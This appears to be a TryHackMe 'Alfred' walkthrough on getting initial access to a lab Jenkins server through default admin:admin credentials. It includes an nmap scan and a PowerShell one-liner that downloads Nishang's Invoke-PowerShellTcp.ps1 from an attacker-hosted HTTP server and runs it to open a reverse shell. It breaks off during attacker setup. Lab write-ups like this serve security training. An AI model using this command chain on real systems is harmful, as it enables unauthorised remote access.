 # TryHackMe: Alfred

#### [Task 1] Initial access

 In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

  
**How many ports are open? (TCP only)**

To find how many TCP ports are open you can use nmap.Run the command `nmap -sT 10.10.5.121` in your terminal and you will get the results displayed in the image below.

<img width="790" alt="1" src="https://user-images.githubusercontent.com/28839345/164770139-07140876-d846-4423-ab3a-5a7edb9310f0.png">

**What is the username and password for the log in panel(in the format username:password)**

After finding the TCP ports that are open you can see that there is a web server running in port 8080.Type in you browser http://10.10.5.121:8080 and you will be redirected in a login panel.

<img width="1260" alt="2" src="https://user-images.githubusercontent.com/28839345/164770148-9cdeea9e-c497-4bb6-8ba2-5df4f3cd991f.png">

The first thing you can try is use the username "admin" and password "admin".As you will see these are the credentials you need to log in as admin.
 
<img width="1263" alt="3" src="https://user-images.githubusercontent.com/28839345/164770151-7f76b1fe-8088-4fc1-8d16-adb24ed7e816.png"> 

<img width="1217" alt="4" src="https://user-images.githubusercontent.com/28839345/164770154-21e9fddc-8edf-443f-8e53-ddb6dc2d694d.png">
 
Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: _powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: _python3 -m http.server_

 Nishang has a repository of all sorts of tools for accessing, enumerating and escalating privileges on Windows machines. If you don’t have it already the first step is to download the repository using the following command `sudo git clone https://github.com/samratashok/nishang`.
 
<img width="805" alt="5" src="https://user-images.githubusercontent.com/28839345/164770156-6fabc5d9-83b7-45de-9141-732181753311.png">
 
 The next step is to  prepare the attacker machine by setting up a HTTP server in the same directory your Invoke-PowerShellTcp.ps1 script is in.(The directory i copied Invoke-PowerShellTcp.ps1 is the Desktop)
 